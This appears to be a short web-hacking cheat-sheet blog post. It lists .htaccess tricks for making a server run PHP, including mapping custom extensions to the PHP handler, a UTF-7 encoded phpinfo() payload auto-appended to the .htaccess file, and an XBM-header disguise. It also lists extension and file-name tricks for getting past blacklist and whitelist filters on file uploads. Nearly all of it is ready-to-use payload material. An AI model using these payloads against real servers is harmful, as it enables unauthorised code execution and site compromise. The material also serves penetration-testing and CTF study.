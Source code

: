 ```yaml
---
layout: post
date: 2021-05-01 00:00:00
title: "Web Note (Update 2021.05.01)"
categories: Note
tags: [CheatSheet]
author:
  - Jeongwon Jo
---
```

## .htaccess<br>

```
php_flag engine off
```
```
AddType application/x-httpd-php .pocas
```
```
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
#+ADw?php phpinfo()+ADs
```
```
#define test_width 1337
#define test_height 1337
AddType application/x-httpd-php .pocas
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```
```
#define width 1337
#define height 1337

AddType application/x-httpd-php .pocas
php_value zend.multibyte 1
php_value zend.detect_unicode 1
php_value display_errors 1
```

---
## Upload Function<br>
<span style="color:#21C587">&#35;</span><strong> Blacklisting Bypass</strong><br>
- PHP → `.php`, `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.pahr`, `.pgif`, `.inc`<br>
- ASP → `.asp`, `.aspx`, `.cer`, `.asa`<br>
- JSP → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `jspf`<br>

<span style="color:#21C587">&#35;</span><strong> Whitelisting Bypass</strong><br>
- file.jpg.php
- file.php.jpg
- file.php.blah123jpg
- file.php%00.jpt
- file.php\x00.jpt
- file.php%00
- file.php%20
- file.php%0d%0a.jpg
- file.php/
- file.php.\

---